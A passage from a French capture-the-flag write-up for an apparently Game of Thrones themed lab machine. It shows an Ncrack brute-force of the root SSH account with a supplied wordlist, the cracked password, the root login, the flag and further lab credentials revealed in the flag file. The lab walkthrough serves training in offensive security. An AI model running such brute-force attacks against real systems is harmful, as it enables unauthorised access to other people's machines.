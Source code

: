 Ok, le commentaire de *Samwell Tarly* laisse entendre que l'on doit bruteforcer le compte SSH root sur 172.25.0.2. Pour celà on a une passlist dans le fichier *digger.txt* présent sur le système.  

Une fois *Ncrack* et ses librairies copiées sur le système :  

```plain
LD_LIBRARY_PATH=. ./ncrack -u root -P ../digger.txt ssh://172.25.0.2 -T insane

Starting Ncrack 0.6 ( http://ncrack.org ) at 2017-11-04 02:34 CET

Discovered credentials for ssh on 172.25.0.2 22/tcp:
172.25.0.2 22/tcp ssh: 'root' 'Dr4g0nGl4ss!'

Ncrack done: 1 service scanned in 120.02 seconds.

Ncrack finished.
```

Let's go !  

```plain
daenerystargaryen@7kingdoms:~$ ssh root@172.25.0.2
The authenticity of host '172.25.0.2 (172.25.0.2)' can't be established.
ECDSA key fingerprint is SHA256:CLkjibFJaJn7gL10+IfE7LWYVS34ZgavwWKn+ej4LaU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.25.0.2' (ECDSA) to the list of known hosts.
root@172.25.0.2's password:

You found the
 ____                          _
|    \ ___ ___ ___ ___ ___ ___| |___ ___ ___
|  |  |  _| .'| . | . |   | . | | .'|_ -|_ -|
|____/|_| |__,|_  |___|_|_|_  |_|__,|___|___|
              |___|       |___|
       _
 _____|_|___ ___
|     | |   | -_|
|_|_|_|_|_|_|___|

root@1558d33076eb:~# id
uid=0(root) gid=0(root) groups=0(root)
root@1558d33076eb:~# ls
flag.txt
root@1558d33076eb:~# cat flag.txt
Congratulations.
You've found the secret flag of Dragonglass mine. This is your flag: a8db1d82db78ed452ba0882fb9554fc9

Now you have the Dragonglass weapons to fight against the White Walkers.

Host's ssh:
branstark/Th3_Thr33_Ey3d_Raven

"The time has come" - The Three Eyed Raven
```
